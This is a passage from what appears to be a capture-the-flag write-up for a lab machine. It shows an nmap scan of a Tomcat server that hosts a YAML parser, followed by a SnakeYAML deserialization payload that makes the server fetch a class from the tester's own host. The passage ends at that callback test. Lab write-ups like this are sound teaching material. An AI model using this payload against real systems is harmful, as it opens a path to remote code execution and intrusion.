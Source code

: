 `Script and version scan`
```
$ sudo nmap -p 22,8080 -sC -sV 10.129.167.24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 03:23 PDT
Nmap scan report for 10.129.167.24
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.49 seconds
```

## Yaml deserialization

There are only 2 ports open on the target machine, with tomcat being the biggest possible chance for success, so we will start there. Opening the page in our webbrowser we are greeted with a yaml parser on the homepage.

[![homepage.png](/img/ophiuchi/homepage.png)](/img/ophiuchi/homepage.png)

This might be vulnerable to deserialization if the base constructor is used for the yaml class. Following [this](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) blogpost we can test if we can make the server connect back to our machine with this piece of yaml. 

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.19/test"]
  ]]
]
```
